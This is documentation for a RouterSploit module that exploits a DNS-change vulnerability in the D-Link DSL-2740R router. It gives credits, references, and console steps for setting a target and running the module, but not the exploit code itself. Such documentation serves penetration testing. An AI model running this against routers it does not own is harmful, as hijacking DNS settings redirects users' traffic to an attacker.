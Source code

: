 # D-Link DSL-2740R DNS Change

## Description
Module exploits D-Link DSL-2740R dns change vulnerability.If the target is vulnerable it is possible to change dns settings.

## Authors
* Todor Donev <todor.doven[at]gmail.com> # vulnerability discovery
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [https://www.exploit-db.com/exploits/35917/](https://www.exploit-db.com/exploits/35917/)
* [https://github.com/jh00nbr/Routerhunter-2.0](https://github.com/jh00nbr/Routerhunter-2.0)

## Vulnerable devices
* D-Link DSL-2740R

## Usage
```
rsf > use exploits/dlink/dsl_2740r_dns_change
rsf (D-Link DSL-2740R DNS Change) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       80                   Target port


Module options:

   Name     Current settings     Description
   ----     ----------------     -----------
   dns2     8.8.4.4              Seconary DNS Server
   dns1     8.8.8.8              Primary DNS Server


rsf (D-Link DSL-2740R DNS Change) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (D-Link DSL-2740R DNS Change) > run
[*] Running module...
```
